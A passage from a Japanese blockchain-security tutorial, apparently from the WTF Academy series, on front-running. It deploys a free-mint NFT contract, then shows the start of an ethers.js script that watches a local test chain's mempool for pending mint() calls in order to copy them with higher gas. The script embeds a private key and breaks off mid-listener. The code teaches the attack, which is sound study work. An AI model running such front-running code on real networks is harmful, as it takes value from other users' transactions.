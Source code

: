 **3. NFTコントラクトのデプロイ：** Remix上で簡単なfreemint（無料ミント）NFTコントラクトをデプロイします。NFTを無料でミントするための`mint()`関数があります。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// Free mint取引をフロントランニングしてみる
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // コンストラクタ、NFTコレクションの名前、シンボルを初期化
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // ミント関数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. ethers.jsフロントランニングスクリプトのデプロイ：** 簡単に言うと、`frontrun.js`スクリプトはテストチェーン`mempool`内の未決取引を監視し、`mint()`を呼び出した取引を抽出し、それをコピーして`gas`を上げてフロントランニングします。`ether.js`に慣れていない場合は、[WTF Ethers極簡チュートリアル](https://github.com/WTFAcademy/WTF-Ethers)をお読みください。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. providerを作成
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] chain ID ${res.chainId}に接続`));

// 2. interfaceオブジェクトを作成、取引詳細をデコードするために使用
const iface = new utils.Interface([
    "function mint() external",
])

// 3. ウォレットを作成、フロントランニング取引を送信するために使用
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. pendingのmint取引を監視し、取引詳細を取得してデコード
    console.log("\n4. pending取引を監視、txHashを取得し、取引詳細を出力。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // tx詳細を取得
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // pendingTx.dataをフィルタ
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // txHashを印刷
                    console.log(`\n[${(new Date).toLocaleTimeString()}] Pending取引を監視: ${txHash} \r`);

                    // デコードされた取引詳細を印刷
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending取引詳細デコード：")
```